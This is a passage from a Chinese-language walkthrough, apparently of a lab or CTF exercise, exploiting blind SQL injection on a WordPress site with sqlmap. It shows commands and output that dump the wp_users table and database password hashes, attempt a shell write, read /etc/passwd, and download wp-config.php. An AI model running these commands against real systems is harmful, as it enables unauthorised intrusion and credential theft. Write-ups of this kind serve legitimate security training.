 	| wp_terms                     |
	| wp_usermeta                  |
	| wp_users                     |
	+------------------------------+

看名称，用户名和密码应该在wp_users中，直接跑数据

	sqlmap -r "C:\Users\10904\Desktop\2040.txt" -D "wordpress" -T "wp_users" --dump

回显

	Database: wordpress
	Table: wp_users
	[1 entry]
	+----+----------+------------------------------------+------------+---------------+-------------+--------------+---------------+---------------------+---------------------+
	| ID | user_url | user_pass                          | user_login | user_email    | user_status | display_name | user_nicename | user_registered     | user_activation_key |
	+----+----------+------------------------------------+------------+---------------+-------------+--------------+---------------+---------------------+---------------------+
	| 1  | <blank>  | $P$BoRvgt/kaEDWqyiq0a3U8QjUQAO6gQ0 | localhost  | test@test.com | 0           | localhost    | localhost     | 2015-10-11 10:10:07 | <blank>             |
	+----+----------+------------------------------------+------------+---------------+-------------+--------------+---------------+---------------------+---------------------+

很明显，密码是被加密过的，根据网上资料可知强度很高，很难破解。

尝试从phpmyadmin入手，首先用SQLmap将数据库的用户名和密码跑出来

	sqlmap -r "C:\Users\10904\Desktop\2040.txt" --current-user --password

回显

    database management system users password hashes:
    [*] debian-sys-maint [1]:
    	password hash: *AA59232D46C9C0751BA3069045A0B90F3C6431C4
    [*] root [1]:
    	password hash: *74ACCF7FB15CDBAEE88B9E7F7B58352D3308CFF2
    [*] wordpress [1]:
    	password hash: *A22BD9F95BF505E792C556FC1EF9FCFA6B6B5D9B

很遗憾，同样是加密过的，很难破解。

再换个方向，直接用sqlmap写Shell，但总是报错，看样子权限不够。没思路了。。

于是请教了下表哥，读文件+扫目录。
尝试用sqlmap读了下/etc/passwd，可以读。看样子读文件是有权限的，但是由于是盲注，读数据很慢。渗透网站的话可以读一下网站的配置文件，但是不知道绝对路径。可以猜：

	Apache默认的网站路径为 /var/www/html/
	wordpress在网站根目录存在wp-config.php的配置文件

尝试直接用sqlmap读取这个文件

	sqlmap -r "C:\Users\10904\Desktop\2040.txt" --file-read "/var/www/html/wp-config.php" -p "topic_id"

运气不错，直接下载到本地了
